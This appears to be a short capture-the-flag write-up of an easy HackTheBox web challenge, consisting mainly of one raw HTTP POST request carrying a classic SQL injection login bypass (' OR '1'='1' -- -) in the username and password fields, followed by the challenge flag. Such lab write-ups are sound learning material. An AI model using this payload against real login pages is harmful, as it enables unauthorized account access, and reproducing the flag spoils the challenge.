


---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - SQL-Injection
---
>[!quote]
> *Can you escape the query context and log in as admin at my super secure login page?*


# Set up

-

# Information Gathering



# Exploitation

```
POST / HTTP/1.1
Host: 188.166.173.208:30599
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: <http://188.166.173.208:30599>
Connection: close
Referer: <http://188.166.173.208:30599/>
Upgrade-Insecure-Requests: 1

username=%27+OR+%271%27%3D%271%27+--+-&password=%27+OR+%271%27%3D%271%27+--+-
```



# Flag

>[!success]
>`HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}`